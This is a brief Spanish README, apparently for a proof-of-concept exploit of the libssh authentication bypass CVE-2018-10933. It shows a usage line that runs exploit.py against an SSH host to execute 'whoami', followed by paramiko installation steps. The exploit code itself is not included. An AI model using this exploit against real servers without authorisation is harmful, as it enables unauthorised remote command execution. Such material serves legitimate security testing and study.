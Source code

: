 # libssh

Ejecucion de comandos libssh CVE-2018-10933

![image](https://user-images.githubusercontent.com/67207446/235362690-e590b25f-2a75-48f8-afa9-caf0bf4818d3.png)

## Ejecucion

python3 exploit.py --host 172.16.20.x -p 22 "whoami"

## Instalacion y actualizacion de paramiko

Instalacion:

sudo apt-get update
sudo apt-get install python-paramiko

Actualizacion:

pip install --upgrade paramiko
